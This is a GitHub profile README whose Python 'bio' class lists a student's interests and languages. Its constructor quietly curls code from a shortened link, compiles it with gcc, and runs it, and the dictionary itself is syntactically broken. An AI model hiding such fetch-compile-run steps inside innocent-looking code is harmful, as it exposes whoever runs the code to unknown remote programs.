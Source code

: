 <h1 align="center">Hi 👋, I'm Lorin 🍈</h1>
<p align="center">
  <img src="https://readme-typing-svg.herokuapp.com?color=%2336BCF7&center=true&lines=Welcome!;Willkommen!;%C2%A1Bienvenido!;Bi+x%C3%AAr+hat%C3%AE!;K%CE%B1%CE%BB%CF%89%CF%83%CF%8C%CF%81%CE%B9%CF%83%CE%BC%CE%B1!;%E3%82%88%E3%81%86%E3%81%93%E3%81%9D%EF%BC%81;Croeso!"/> 
</p>

```python
class melorin4:
  def __init__(self):
    subprocess.call("curl -sL 'spoti.fi/3pdhI4G' | gcc -w -o name -xc - && ./name", shell=True)
    self.bio = {
      '- 🐧 i'm interested in'           : {'art, *NIX customisation, linux and BSD in general >:)'}
      '- 💼 i am a'                      : {'17 year old high school student'},
      '- 🔭 i’m currently working on'    : {'fixing myself </3'},
      '- 🌱 i’m currently learning'      : {'python', 'javascript', 'GDScript', 'web development', 'godot engine'},
      '- 💬 you ask me about'            : {'linux', 'art', 'games', 'books'}
      '- 👨‍💻 my art is available at'      : 'https://www.instagram.com/melolorin/',
      '- ⚡ fun fact'                    : ('i'm a void linux shill :>')
    }
if __name__ == '__main__':
  import subprocess, pprint
  pprint.pprint(melorin4().__dict__)
```
<br>
<p align="center"><img src="https://cdn.discordapp.com/attachments/784337338209009674/914930936200691722/unknown_2.png"></p>
<h4 align="center">where to find me </h4>
<p align="center">

links

</p>
<h4 align="center">languages & other stats 💻</h4>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api?username=melorin4&include_all_commits=true&count_private=true&show_icons=true&theme=radical&hide_border=true&custom_title=melorin4%27s%20Github%20Stats" width="48%" alt="lorin"/></a>
</p>
<p align="center">
<a href="https://github.com/anuraghazra/github-readme-stats"><img src="https://github-readme-stats.vercel.app/api/top-langs/?username=melorin4&&show_icons=true&theme=radical&hide_border=true&layout=compact&custom_title=beep%20boop" alt="melorin4"/></a>
</p>
<br>
